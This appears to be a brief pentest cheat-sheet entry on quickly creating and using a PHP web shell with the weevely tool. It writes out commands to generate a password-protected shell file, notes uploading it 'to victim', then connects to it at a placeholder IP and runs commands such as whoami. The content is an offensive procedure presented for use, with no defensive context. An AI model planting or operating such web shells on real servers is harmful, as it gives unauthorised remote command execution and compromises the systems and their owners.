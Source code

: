 Quick webshell creation and usage
----------------------------------
```bash
# create web shell
weevely generate 1234 ./weevley.php

### upload file to victim

# get webshell
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234
# type ":help" for more commands
# use ctrl-c to exit

# run single command
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234 whoami
```
